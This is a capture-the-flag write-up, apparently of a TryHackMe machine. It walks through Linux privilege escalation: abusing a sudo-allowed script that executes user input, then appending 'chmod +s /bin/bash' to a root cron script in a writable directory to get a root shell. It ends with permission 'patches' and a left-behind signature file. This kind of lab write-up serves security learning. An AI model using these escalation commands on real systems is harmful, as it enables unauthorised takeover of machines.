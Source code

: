 1) I see the sudo privilegies;
```
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
2) I read the file:
```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```
3) I execute this file such as gyles and I spawn the shell:
```
dale@TEAM:~$sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: anon
Enter 'date' to timestamp the file: /bin/bash
whoami
gyles
```
4) I find the following folder `/opt/admin_stuff` in this folder is a `script.sh`:
```bash
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```
5) Looks this this script runs as `root` every minute. It also calls two other scripts lets see if we have write permissions on any of these folders:
```
drwxr-xr-x 10 root root  4096 Jan 15 19:49 .
drwxr-xr-x 10 root root  4096 Jan 15 19:49 ..
drwxrwxr-x  2 root admin 4096 Jan 17 19:48 bin
drwxr-xr-x  2 root root  4096 Apr 26  2018 etc
drwxr-xr-x  2 root root  4096 Apr 26  2018 games
drwxr-xr-x  2 root root  4096 Apr 26  2018 include
drwxr-xr-x  3 root root  4096 Jan 15 19:49 lib
lrwxrwxrwx  1 root root     9 Jan 15 19:49 man -> share/man
drwxr-xr-x  2 root root  4096 Jan 17 19:45 sbin
drwxr-xr-x  4 root root  4096 Jan 15 19:49 share
drwxr-xr-x  2 root root  4096 Apr 26  2018 src
```
6) I have full permisisons in the `bin` folder,The folder contains the `main_backup.sh` I have full r/w permsissions so anything in put in the script will be executed as `root`.
```
echo "chmod +s /bin/bash" >> main_backup.sh
```
This command will change `/bin/bash` to SUID. This means it run run bash with root privs now.
7) I get the root shell and I read the flag:
```
ls -all /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
/bin/bash -p
whoami
root
cat /root/root.txt
THM{fhqbznavfonq}
```
-------------
## Patch the machines vulnerabilities 

1) I change permissions in this file "admin_checks":
```
cd /home/gyles
ls -all
total 52
drwxr-xr-x 6 gyles gyles   4096 Jan  8 14:35 .
drwxr-xr-x 5 root  root    4096 Jan 15  2021 ..
-rwxr--r-- 1 gyles editors  399 Jan 15  2021 admin_checks
-rw------- 1 gyles gyles   5639 Jan 17  2021 .bash_history
-rw-r--r-- 1 gyles gyles    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 gyles gyles   3771 Apr  4  2018 .bashrc
drwx------ 2 gyles gyles   4096 Jan 15  2021 .cache
drwx------ 3 gyles gyles   4096 Jan 15  2021 .gnupg
drwxrwxr-x 3 gyles gyles   4096 Jan 15  2021 .local
-rw-r--r-- 1 gyles gyles     19 Jan  8 14:35 main_backup.sh
-rw-r--r-- 1 gyles gyles    807 Apr  4  2018 .profile
drwx------ 2 gyles gyles   4096 Jan  8 14:08 .ssh
-rw-r--r-- 1 gyles gyles      0 Jan 17  2021 .sudo_as_admin_successful

chmod a=-x admin_checks

ls -all
total 52
drwxr-xr-x 6 gyles gyles   4096 Jan  8 14:35 .
drwxr-xr-x 5 root  root    4096 Jan 15  2021 ..
---------- 1 gyles editors  399 Jan 15  2021 admin_checks
-rw------- 1 gyles gyles   5639 Jan 17  2021 .bash_history
-rw-r--r-- 1 gyles gyles    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 gyles gyles   3771 Apr  4  2018 .bashrc
drwx------ 2 gyles gyles   4096 Jan 15  2021 .cache
drwx------ 3 gyles gyles   4096 Jan 15  2021 .gnupg
drwxrwxr-x 3 gyles gyles   4096 Jan 15  2021 .local
-rw-r--r-- 1 gyles gyles     19 Jan  8 14:35 main_backup.sh
-rw-r--r-- 1 gyles gyles    807 Apr  4  2018 .profile
drwx------ 2 gyles gyles   4096 Jan  8 14:08 .ssh
-rw-r--r-- 1 gyles gyles      0 Jan 17  2021 .sudo_as_admin_successful
```
2) I change permissions in this folder "/opt/admin_stuff":
```
bash-4.4# chmod a=-x-r-w /opt/admin_stuff
bash-4.4# ls -all /opt
total 12
drwxr-xr-x  3 root root  4096 Jan 16  2021 .
drwxr-xr-x 23 root root  4096 Jan 15  2021 ..
d---------  2 root admin 4096 Jan 17  2021 admin_stuff
```
3) I leave my signature:
```
bash-4.4# touch /home/dale/README.txt
bash-4.4# echo 'CyberSpider  has been here, Now I am root :)' > /home/dale/README.txt
bash-4.4# chmod a=+r /home/dale/README.txt
bash-4.4# ls -all /home/dale/README.txt
-r--r--r-- 1 root root 45 Jan  8 14:58 /home/dale/README.txt
bash-4.4# cat /home/dale/README.txt
CyberSpider  has been here, Now I am root :)
bash-4.4# 
```